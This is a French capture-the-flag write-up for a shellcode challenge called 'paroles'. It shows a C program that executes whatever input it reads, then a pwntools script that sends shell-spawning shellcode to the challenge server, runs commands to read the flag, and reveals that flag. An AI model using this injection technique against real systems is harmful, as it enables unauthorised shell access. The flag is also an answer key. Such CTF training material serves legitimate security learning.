 ## Enoncé

>Entre les lagons turquoise et les forêts tropicales denses, se trouve une île légendaire nommée Naori. Cette île est réputée pour abriter d'anciens esprits guerriers, gardiens de puissants secrets. Seuls les plus braves et les plus intelligents peuvent espérer marcher sur les traces de ces guerriers et découvrir les trésors cachés des temps anciens.
> 
> Un grand guerrier des temps anciens a laissé derrière lui une série d'épreuves pour tester la force et l'ingéniosité de ceux qui souhaiteraient suivre son chemin. Ces épreuves, connues sous le nom de "Chemin du Guerrier", commencent par un simple défi, mais chaque étape mène les aspirants plus près du secret ultime.
> 
> La deuxième étape de ce périple est annoncée par un message à l'entrée d'une grotte : "Celui qui souhaite maîtriser les esprits doit aussi apprendre à dompter les mots. Entrez, mais prenez garde : le moindre faux pas pourrait réveiller des forces que vous ne pouvez contrôler."
> 
> En entrant dans la grotte, vous découvrez un ancien artefact, un vieux totem, qui semble réagir à vos paroles. Cet artefact, connu sous le nom de "Totem de l'Exécution", est la clé de votre première épreuve. Il exécute tout ce qui lui est dit, sans poser de question. Mais attention, il est capricieux et n'aime pas les erreurs.


![paroles](../../../../attachements/paroles)

![paroles](paroles.c)
## Résolution

Ici on regarde le code : 
```c
#include <stdio.h>
#include <unistd.h>
void init(){
    fclose(stderr);
    setvbuf(stdin,  0, 2, 0);
    setvbuf(stdout, 0, 2, 0);
}
int main(){
    init();
    char buf[0x100]; 
    puts("Si vous réussissez à maîtriser le Totem, le chemin du guerrier s'ouvrira un peu plus devant vous. Mais ce n'est que le début. D'autres épreuves plus difficiles vous attendent, où chaque pas vous rapprochera un peu plus du secret ultime du guerrier légendaire.\n\nQu'avez-vous à me dire ?");
    read(0, buf, 0x100);
    void (* p )(); 
    p = (void (*)()) buf;
    p();
    return 0;
}
```

En gros le programme va prendre notre input et l’interpréter comme une fonction qu’il va appeler.

Le code nous indique (et chatgpt aussi d’ailleurs) de passer par un shellcode : une chaine qui va executer un code quand il sera appelé. Ce qu’on souhait nous, c’est avoir un shell pour récupérer le contenu du flag sur le serveur.

Et on va faire ça avec un script.

Injection de shellcode : 

```python
#!/usr/bin/env python3
from pwn import *

exe = context.binary = ELF(args.EXE or 'paroles')

p = remote("challenges.hackagou.nc", 5001)

shellcode = asm(shellcraft.sh())

p.recv()
p.sendline(shellcode)
p.interactive()
p.close()
```

```bash
ls
cat flag.txt
```

>[!question]- Spoiler du flag
> OPENNC{13_Gu3rR13r_p4r13_54n5_R3gr37!}


